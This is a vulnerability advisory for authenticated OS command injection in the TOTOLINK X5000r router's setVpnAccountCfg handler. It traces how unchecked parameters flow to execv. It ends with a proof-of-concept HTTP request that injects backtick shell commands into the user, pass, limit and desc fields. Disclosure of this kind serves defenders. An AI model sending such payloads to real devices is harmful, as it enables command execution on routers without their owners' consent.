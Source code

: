 # totolink X5000r
## Firmware version
totolink X5000r devices through v9.1.0cu.2350_b20230313
## description
In totolink X5000r v9.1.0cu.2350_b20230313, the file /web/cgi-bin/cstecgi.cgi contains a OS command injection vulnerability in `setVpnAccountCfg`. Authenicated Attackers can send malicious packet to execute arbitary commands.
## detail
In function `setVpnAccountCfg` (at 0x414734), binary /web/cgi-bin/cstecgi.cgi. These parameters ( `user`, `pass`, `limit`, `desc`) are passed to the `Uci_Set_Str` function without any check.

![](setVpnAccountCfg.png)

The `Uci_Set_Str` function is located in `libcscommon.so`. This function formats the fourth parameter into a string and passes it to the `CsteSystem` function, which eventually calls the `execv` function to execute it.

![](Uci_Set_Str().png)

![](CsteSystem().png)

## POC
```txt
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 225
Origin: http://192.168.0.1
Connection: keep-alive
Referer: http://192.168.0.1/advance/account.html?timestamp=1733739239593

{"type":"3","user":"123`ls>/tmp/1`","pass":"123`ls>/tmp/2`","limit":"1`ls>/tmp/3`","desc":"123`ls>/tmp/4`","addEffect":"1","ipaddr":"","subnet":[{"ipaddr":"","mask":""}],"accessLimit":"0","topicurl":"setVpnAccountCfg","token":"022874401695c70dc41bee226599ed69"}
```
